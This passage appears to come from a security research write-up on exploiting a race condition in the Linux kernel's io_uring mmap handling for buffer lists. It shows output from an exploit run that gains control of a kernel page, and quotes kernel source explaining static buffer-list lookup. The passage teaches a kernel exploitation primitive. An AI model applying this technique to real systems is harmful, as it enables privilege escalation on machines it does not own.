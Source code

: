 The reason we need the `count` variable is that the mmap handler is called twice during mapping, and the exploitation succeeds only if the race condition occurs during the second call.

After mapping the buffer list, we gain **full control over the same page**, and it is a very powerful primitive!

``` bash
user@lts-6:/$ /mnt/iouring-exp
0000 0000010000014000 0000000000000000
0010 0000000000000000 0000000000000003
0020 0000000000000000 0000000000000002
0030 0000000000000000 0000000000000000
0040 0000000000000000 0000000000000000
0050 ffff888104c6e050 ffff888104c6e050
0060 0000000000000000 0000000000000000
0070 0000002000000000 ffff888104b34740
...
```

More interestingly, in that kernel version, io_uring supports static buffer lists. These lists are initialized using `io_init_bl_list()` when a buffer list with an ID less than `BGID_ARRAY` (64) [1] is registered for the first time [2].

``` c
int io_register_pbuf_ring(struct io_ring_ctx *ctx, void __user *arg)
{
    // [...]
    if (unlikely(reg.bgid < BGID_ARRAY /* [1] */ && !ctx->io_bl /* [2] */)) {
        int ret = io_init_bl_list(ctx);
    }
    // [...]
}

static __cold int io_init_bl_list(struct io_ring_ctx *ctx)
{
    struct io_buffer_list *bl;
    int i;

    bl = kcalloc(BGID_ARRAY, sizeof(struct io_buffer_list), GFP_KERNEL);

    for (i = 0; i < BGID_ARRAY; i++) {
        INIT_LIST_HEAD(&bl[i].buf_list);
        bl[i].bgid = i;
    }
    // [...]
    return 0;
}
```

If we map a buffer list with an ID less than `BGID_ARRAY` during exploitation, `__io_buffer_get_list()` simply retrieves it from the static buffer [3, 4].

``` c
void *io_pbuf_get_address(struct io_ring_ctx *ctx, unsigned long bgid)
{
    struct io_buffer_list *bl;

    bl = __io_buffer_get_list(ctx, smp_load_acquire(&ctx->io_bl), bgid); // [3]
    // [...]
}

static struct io_buffer_list *__io_buffer_get_list(struct io_ring_ctx *ctx,
                           struct io_buffer_list *bl,
                           unsigned int bgid)
{
    if (bl && bgid < BGID_ARRAY)
        return &bl[bgid]; // [4]
```